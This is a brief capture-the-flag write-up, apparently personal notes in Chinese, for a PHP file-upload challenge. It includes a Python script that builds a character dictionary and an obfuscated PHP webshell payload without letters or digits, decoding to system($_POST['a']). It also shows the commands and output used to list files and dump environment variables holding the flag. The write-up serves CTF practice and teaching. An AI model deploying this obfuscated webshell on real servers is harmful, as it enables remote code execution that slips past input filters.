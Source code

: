 ![[Pasted image 20230220192219.png|500]]

```
/index.php
```

![[Pasted image 20230220192242.png|500]]

```
/index.php?act=upload
```

![[Pasted image 20230220192325.png|800]]

无字母数字RCE，考虑使用汉字绕过

生成字典

```python
s = '悲'
l = list(s.encode())

for i in list(range(65, 91)) + list(range(97, 123)):
    l[1] = ~i + 256
    print(bytes(l).decode() + ' ==> ' + chr(i))

# 澲 ==> A
# 潲 ==> B
# 漲 ==> C
# 滲 ==> D
# 溲 ==> E
# 湲 ==> F
# 渲 ==> G
# 淲 ==> H
# 液 ==> I
# 浲 ==> J
# 洲 ==> K
# 泲 ==> L
# 沲 ==> M
# 汲 ==> N
# 氲 ==> O
# 毲 ==> P
# 殲 ==> Q
# 歲 ==> R
# 欲 ==> S
# 櫲 ==> T
# 檲 ==> U
# 橲 ==> V
# 樲 ==> W
# 槲 ==> X
# 榲 ==> Y
# 楲 ==> Z
# 枲 ==> a
# 杲 ==> b
# 朲 ==> c
# 曲 ==> d
# 暲 ==> e
# 晲 ==> f
# 昲 ==> g
# 旲 ==> h
# 斲 ==> i
# 敲 ==> j
# 攲 ==> k
# 擲 ==> l
# 撲 ==> m
# 摲 ==> n
# 搲 ==> o
# 揲 ==> p
# 掲 ==> q
# 捲 ==> r
# 挲 ==> s
# 拲 ==> t
# 抲 ==> u
# 扲 ==> v
# 戲 ==> w
# 懲 ==> x
# 憲 ==> y
# 慲 ==> z
```

payload

```php
<?=$_=[];$__=$_==$_;$___=~挲[$__];$___.=~憲[$__];$___.=~挲[$__];$___.=~拲[$__];$___.=~暲[$__];$___.=~撲[$__];$____=_;$____.=~毲[$__];$____.=~氲[$__];$____.=~欲[$__];$____.=~櫲[$__];$___($$____[~枲[$__]]);
```

翻译过来是

```php
system($_POST['a']);
```

![[Pasted image 20230220193201.png|800]]

![[Pasted image 20230220193226.png|1000]]

```shell
ls /
```

```
Th1s_14_f14g
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

```shell
cat /Th1s_14_f14g
```

```
SUCTF{fake_flag_web_b}
```

假flag

找半天结果在环境变量里qaq

```shell
export
```

```shell
export APACHE_LOCK_DIR='/var/lock/apache2'
export APACHE_LOG_DIR='/var/log/apache2'
export APACHE_PID_FILE='/var/run/apache2/apache2.pid'
export APACHE_RUN_DIR='/var/run/apache2'
export APACHE_RUN_GROUP='www-data'
export APACHE_RUN_USER='www-data'
export FLAG='flag{4487500a-7f2b-4155-88ac-a52e58fddead}'
export HOSTNAME='out'
export KUBERNETES_PORT='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP_ADDR='10.240.0.1'
export KUBERNETES_PORT_443_TCP_PORT='443'
export KUBERNETES_PORT_443_TCP_PROTO='tcp'
export KUBERNETES_SERVICE_HOST='10.240.0.1'
export KUBERNETES_SERVICE_PORT='443'
export KUBERNETES_SERVICE_PORT_HTTPS='443'
export LANG='C'
export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PWD='/var/www/html/upload'
```

#Web #PHP #RCE #unicode